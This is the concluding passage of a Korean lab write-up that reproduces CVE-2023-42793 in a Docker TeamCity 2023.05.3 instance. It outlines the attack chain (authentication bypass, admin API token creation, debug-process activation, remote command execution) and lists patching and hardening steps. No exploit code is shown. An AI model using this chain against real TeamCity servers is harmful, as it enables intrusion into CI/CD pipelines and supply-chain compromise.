

구동만 무려 300초 가량이 걸렸다. 이미지엔 없지만 웹 서버도 잘 접속되는 걸 확인했다.




id 명령도 잘 되고 공격도 성공했다.


#### Linux

리눅스의 경우 순정 리눅스 환경은 없고 윈도우의 VMWare을 통한 가상 환경이 있겠으나 WSL과 동작은 거의 같을 것이라고 기대하고 따로 테스트해보지 않았다.


### 대응 방안

가장 우선적인 대응은 취약하지 않은 버전으로 업데이트하는 것이다. JetBrains는 TeamCity 2023.05.4에서 해당 취약점을 수정하였다. 구버전을 즉시 업데이트하기 어려운 경우에는 JetBrains가 제공한 보완 플러그인 적용 여부를 검토해야 한다.

- RCE 같은 치명적인 취약점들은 죄다 CVE년도가 2023 같이 오래되서 2026년에 누가 당해주나 싶었는데 막상 내 컴퓨터에 깔린 Intellij Idea도 2023년 버전이었다. 바로 반성하고 업데이트 진행..

운영 환경에서는 다음 보안 조치를 함께 적용해야 한다.

- TeamCity를 2023.05.4 이상 버전으로 업데이트한다.
- TeamCity 관리 콘솔을 인터넷에 직접 노출하지 않는다.
- VPN, 방화벽, 접근 제어 목록으로 접속 가능한 대상을 제한한다.
- 불필요한 debug process 기능을 비활성화한다.
- TeamCity API token, 배포 token, SSH key, secret 값을 점검하고 교체한다.
- 빌드 서버와 운영 배포 계정에는 최소 권한 원칙을 적용한다.
- `/RPC2` 이름의 token 생성 여부와 비정상 API 호출 흔적을 점검한다.
- TeamCity 서버 로그와 빌드 이력을 확인하여 비정상 설정 변경이나 빌드 변조 여부를 확인한다.


## III. 결론

- CVE-2023-42793은 TeamCity의 인증 처리 예외를 악용하여 관리자 API token을 생성할 수 있는 취약점이다. 공격자는 생성한 token으로 서버 설정을 변경하고 debug process API를 활성화하여 원격 명령 실행까지 수행할 수 있다.

- 본 실습에서는 Docker 기반의 TeamCity 2023.05.3 환경에서 PoC를 실행하여 인증 우회, 관리자 token 생성, debug process 활성화, 서버 명령 실행 흐름을 확인하였다.

- TeamCity는 빌드와 배포를 담당하는 CI/CD 서버이므로, 이 취약점은 단순한 서버 RCE보다 더 큰 위험을 가진다. 공격자가 CI/CD 서버를 장악하면 소스코드, secret, 빌드 산출물, 배포 파이프라인이 모두 공격 대상이 될 수 있으며, 이는 공급망 공격으로 이어질 수 있다.


### 참고자료

- JetBrains TeamCity Blog, [CVE-2023-42793 Vulnerability in TeamCity: Post-Mortem](https://blog.jetbrains.com/teamcity/2023/09/cve-2023-42793-vulnerability-post-mortem/)
- NVD, [CVE-2023-42793 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-42793)
- SonarSource, [Source Code at Risk: Critical Code Vulnerability in CI/CD Platform TeamCity](https://www.sonarsource.com/blog/teamcity-vulnerability/)
